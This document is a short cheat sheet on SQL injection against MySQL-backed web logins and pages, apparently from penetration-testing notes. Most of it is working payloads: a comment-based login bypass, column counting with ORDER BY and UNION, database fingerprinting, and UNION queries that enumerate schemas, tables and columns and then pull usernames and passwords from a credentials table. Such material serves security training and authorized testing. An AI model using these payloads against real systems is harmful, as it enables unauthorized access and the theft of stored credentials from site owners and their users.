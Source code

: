 Subverting SQL Query Logic
############################

Authentication Injection
*****************************
Escaping the argument and extending the query
===============================================

Example in the case of a simple login query.

.. code-block:: console

   SELECT username, password from users where username = "" AND password = "";

And by sending the data values as

.. code-block:: console

   admin'-- - 

The ’– - will escape the query and not compare the password.

Determining query result columns
************************************

Using ORDER BY
==================

Using these two SQL actions we can determine how many columns are
returned in the original query. By injecting:

.. code-block:: console

   ' order by 1-- -

This will confirm that there is at least one column returned. Keep
incrementing the integer until there is an error, or blank page.

Using UNION
=================

The same method can be used using UNION as well

.. code-block:: console

   ' UNION SELECT 1,2,3-- -

Keep adding numbers until failure.

Determine location of Injection
**********************************

Results may not be displayed in the starting or same order as the query.
This is why it is useful to use numbers as our junk data (and it avoids
getting the wrong datatype).

A test we can use instead of a number, to see if there is data there is
by using @@version or user()

Fingerprinting
*****************

To determine MySQL there are 3 function that are unique to it:

1. @@VERSION
2. POW(1,1)
3. SLEEP(5) - Will sleep 5 sec, and 0 in all other DB’s

Schema enumeration
*********************

To get all databases on this server use:

.. code-block:: console

   SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

Example: For a query that returns 4 columns, but only displays 2,3,4

.. code-block:: console

   cn' UNION SELECT 1, schema_name, 3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

To get the database that the web container is using use

.. code-block:: console

   cn' UNION SELECT 1, database(),2,3-- -

As this may return other interesting databases - for in this example
‘dev’ we can get the tables from this schema with:

.. code-block:: console

   cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Say there is a table called ‘credentials’ we can get its structure with:

.. code-block:: console

   cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Now that we have the column names, we can get the data with:

.. code-block:: console

   cn' UNION select 1, username, password, 4 from dev.credentials-- -

References
***********
